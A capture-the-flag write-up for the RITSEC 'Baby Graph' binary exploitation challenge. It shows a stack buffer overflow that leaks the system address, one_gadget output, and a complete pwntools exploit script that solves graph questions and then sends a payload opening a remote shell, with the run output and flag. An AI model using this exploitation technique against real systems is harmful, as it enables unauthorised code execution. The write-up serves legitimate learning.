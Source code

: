 # RITSEC Baby Graph Write Up

## Details:

Jeopardy style CTF

Category: Binary Exploitation

Comments:

This is what happens to your baby when you want a pwner and a graph theorist. Do your part!!!

```
nc challenges1.ritsec.club 1339
```

## Write up:

Looking at the C source we can see that we need to answer some graph theory questions and then we get to the vulnerability:

```c
void vuln() {
    char buf[100];

    printf("Here is your prize: %p\n", system);
    fgets(buf, 400, stdin);
}
```

This function prints out the address of system and then reads in data resulting in a buffer overflow. 

At this point my teammate made a quick script to do the graph theory problems which then let me check if we could get a segfault.

This challenge provided a libc so I did not need to leak libc. I then used one_gadget to find potential jumps:

```
one_gadget libc.so.6  

0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

Using gdb I found that 0xe6c81 was the call I wanted and that I would need 120 NOPs. I then created the following script:

```python
# import pwntools
from pwn import *

# open connection
conn = remote('challenges1.ritsec.club', 1339)

# open libc
libc = ELF('./libc.so.6')

# get system call offset
sysCall = libc.symbols['system']

# do graph theory stuff
from collections import defaultdict
   
class Graph:
    def __init__(self,vertices):
        self.V= vertices #No. of vertices
        self.graph = defaultdict(list) # default dictionary to store graph
    def addEdge(self,u,v):
        self.graph[u].append(v)
        self.graph[v].append(u)
    def DFSUtil(self,v,visited):
        visited[v]= True
        for i in self.graph[v]:
            if visited[i]==False:
                self.DFSUtil(i,visited)
    def isConnected(self):
        visited =[False]*(self.V)
        for i in range(self.V):
            if len(self.graph[i]) > 1:
                break
        if i == self.V-1:
            return True
        self.DFSUtil(i,visited)
        for i in range(self.V):
            if visited[i]==False and len(self.graph[i]) > 0:
                return False
        return True
    def isEulerian(self):
        if self.isConnected() == False:
            return 0
        else:
            odd = 0
            for i in range(self.V):
                if len(self.graph[i]) % 2 !=0:
                    odd +=1
            return odd==0
  
def i():
    s = conn.recvline().strip().decode()
    print(s)
    return s
for _ in range(5):
    i()
    l=i().split(' ')
    v =int(l[2])
    e=int(l[6])
    g = Graph(v)
    for _ in range(e):
        a,b = i().split()
        g.addEdge(int(a),int(b))
    i()
    print(g.isEulerian())
    if g.isEulerian():
        conn.send('Y\n')
    else:
        conn.send('N\n')

# get the system address
addy = conn.readline()
addy = (int(str(addy)[22:-3], 16))

# make the nops
nops = b'\x90'* 120

# send the payload
conn.sendline(nops + p64(addy - sysCall + 0xe6c81))

# open interactive mode
conn.interactive()
```

When run I got the following:

```
[+] Opening connection to challenges1.ritsec.club on port 1339: Done
[*] '/home/kali/Downloads/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Here is your baby graph
V = 9 - E = 11
0 2
0 8
2 3
2 4
2 5
2 6
3 6
4 8
6 7
6 8
7 8
Now tell me if this baby is Eulerian? (Y/N)
False
Here is your baby graph
V = 2 - E = 0
Now tell me if this baby is Eulerian? (Y/N)
True
Here is your baby graph
V = 9 - E = 35
0 1
0 2
0 3
0 4
0 5
0 6
0 7
0 8
1 2
1 3
1 4
1 5
1 6
1 7
1 8
2 3
2 4
2 5
2 6
2 7
2 8
3 4
3 5
3 6
3 7
3 8
4 5
4 6
4 7
4 8
5 6
5 7
5 8
6 8
7 8
Now tell me if this baby is Eulerian? (Y/N)
False
Here is your baby graph
V = 6 - E = 0
Now tell me if this baby is Eulerian? (Y/N)
True
Here is your baby graph
V = 5 - E = 0
Now tell me if this baby is Eulerian? (Y/N)
True
[*] Switching to interactive mode
$ cat flag.txt
RS{B4by_gr4ph_du_DU_dU_Du_B4by_graph_DU_DU_DU_DU_Baby_gr4ph}
```